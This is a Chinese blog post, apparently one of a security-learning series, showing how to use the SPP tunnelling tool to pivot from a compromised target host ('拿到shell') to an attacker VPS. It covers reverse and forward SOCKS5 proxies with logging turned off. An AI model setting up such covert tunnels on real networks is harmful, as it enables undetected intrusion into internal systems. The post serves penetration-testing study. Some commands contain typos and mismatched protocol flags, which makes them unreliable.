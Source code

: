 #  内网穿透学习-9-SPP工具

原创 FengXS0ne  [ Feng随心而安 ](javascript:void\(0\);)

**Feng随心而安** ![]()

微信号 gh_13bd5fd7a612

功能介绍 一个平凡的人，记录平凡的事，过着平凡的生活。平平淡淡，简简单单，追求无憾，追求无悔。

____

___发表于_

收录于合集 #内网穿透学习 9个

**本文章仅供学习交流使用，
文中所涉及的技术、思路和工具仅供以安全为目的的学习交流使用，任何人不得将其用于非法用途以及盈利等目的，否则后果自行承担。请尊重原创，可以相互学习，虽说是记录生活，但也反感被人拿去盈利。**

1\. 工具介绍

 **
**一款比较好用的内网穿透工具，支持的协议：TCP，UDP，RUDP（可靠UDP），RICMP（可靠ICMP），RHTTP（可靠HTTP），KCP，Quic。支持类型：正向代理、反向代理、SOCKS5正向代理、SOCKS5反向代理，协议和类型可以自由组合，外部代理协议和内部转发协议可以自由组合，支持Shadowsocks插件，spp
Shadowsocks插件、spp shaowsocks插件android。

下载地址：https://github.com/esrrhs/spp

双工工具，可用做客户端，又可以做服务端

![](https://gitee.com/fuli009/images/raw/master/public/20230624165206.png)

2\. 具体使用

 **      1. **反向代理  
    靶机反连到VPS上的1080端口上，通过本地代理VPS的1080端口实现内网穿透到靶机上。  
    靶机：x.x.x.218  
    VPS：x.x.x.90

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    VPS端：./spp -type server -proto tcp -listen :8888 -nolog 1   
    -type type    server  服务端    proxy_client    reverse_proxy_client      socks5_client  正向代理socks5     reverse_socks5_client 反向socks5代理-proto  使用的协议    tcp     rudp     ricmp     kcp     quic     rhttp  
    -listen  监听端口    :8888-nolog 1  不写日志-noprint 1   不在页面打印

![](https://gitee.com/fuli009/images/raw/master/public/20230624165216.png)

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    靶机（拿到shell）./spp -name "test" -type reverse_socks5_client -server x.x.x.90:8888 -fromaddr :1080 -proxyproto tcp -nolog 1  
    -name     客户端的名词，默认位client-type     reverse_socks5_client  反向sock5代理   -server    x.x.x.90:8888 spp的服务端ip以及监听的端口     -fromaddr     -fromaddr 反弹socks5到 x.x.x.90 的1080的端口    :1080   -proxyproto     tcp 被代理的协议-nolog 1  不写日志-noprint 1   不在页面打印

![](https://gitee.com/fuli009/images/raw/master/public/20230624165217.png)

当靶机反连过去，VPS的1080端口就会被打开。

![](https://gitee.com/fuli009/images/raw/master/public/20230624165219.png)

![](https://gitee.com/fuli009/images/raw/master/public/20230624165220.png)

 **2.  **正向代理

    本地去socks5 vps 的1080 端口，后通过本地代理VPS的1080端口实现内网穿透到靶机上。VPS的1080端口直连到靶机上去，  
    靶机：x.x.x.218  
    VPS：x.x.x.90

靶机上：因为是双工工具，可用做客户端，又可以做服务端

  *   *   *   * 

    
    
    靶机上./spp -type server -proto tcp -listen :8821-type type     server  服务端

![](https://gitee.com/fuli009/images/raw/master/public/20230624165221.png)

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    VPS: ./spp -name "test" -type socks5_client -server x.x.x.218:8821 -fromaddr :1080 -proxyproto tcp  
    -name     客户端的名词，默认位client-type     socks5_client 正向sock5代理   -server    x.x.x.218:8821 spp的服务端ip以及监听的端口     -fromaddr     -fromaddr  正向代理，打开的是VPS的1080端口    VPS的1080    :1080   -proxyproto     tcp 被代理的协议-nolog 1  不写日志-noprint 1   不在页面打印

![](https://gitee.com/fuli009/images/raw/master/public/20230624165222.png)

![](https://gitee.com/fuli009/images/raw/master/public/20230624165223.png)

 ** **3.  **其他**

  *   *   *   *   *   *   *   *   *   *   * 

    
    
    以反向代理为例，使用其他协议  
    代理TCP，内部RUDP协议转发vps./spp -type server -proto rudp -listen :8888 -nolog 1  
    靶机shell./spp -name "test" -type reverse_socks5_client -server x.x.x.90:8888 -fromaddr :1080 -toaddr :1080 -proxyproto tcp -proto rudp这里需要注意的参数是-proxyproto tcp -proto rudp  简单理解意思是，对rudp协议封装成tcp协议。这个协议封装是怎样的，我也拿不准，可能说的有错。勿怪

![](https://gitee.com/fuli009/images/raw/master/public/20230624165223.png)

  *   *   *   *   *   *   *   *   * 

    
    
    代理TCP，内部kcp协议转发vps./spp -type server -proto kcp -listen :8888 -nolog 1  
    靶机shell./spp -name "test" -type reverse_socks5_client -server x.x.x.90:8888 -fromaddr :1080 -toaddr :1080 -proxyproto tcp -proto kcp这里需要注意的参数是-proxyproto tcp -proto rudp  简单理解意思是，对kcp协议封装成tcp协议。 这个协议封装是怎样的，我也拿不准，可能说的有错。勿怪

![](https://gitee.com/fuli009/images/raw/master/public/20230624165225.png)

  *   *   *   *   *   * 

    
    
    代理TCP，内部quic协议转发vps./spp -type server -proto kcp -listen :8888 -nolog 1  
    靶机shell./spp -name "test" -type reverse_socks5_client -server x.x.x.90:8888 -fromaddr :1080 -toaddr :1080 -proxyproto tcp -proto quic

  *   *   *   *   *   * 

    
    
    代理TCP，内部rhttp协议转发vps./spp -type server -proto rhttp-listen :8888 -nolog 1  
    靶机shell./spp -name "test" -type reverse_socks5_client -server x.x.x.90:8888 -fromaddr :1080 -toaddr :1080 -proxyproto tcp -proto rhtt

  

随时记录，用的时候，拿来就用....  

内网穿透应该算差不多了吧，魔改的话，等后面再弄吧....最近在研究nuclei这款工具...

 ** **本文章仅供学习交流使用，
文中所涉及的技术、思路和工具仅供以安全为目的的学习交流使用，任何人不得将其用于非法用途以及盈利等目的，否则后果自行承担。请尊重原创，可以相互学习，虽说是记录生活，但也反感被人拿去盈利。****

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

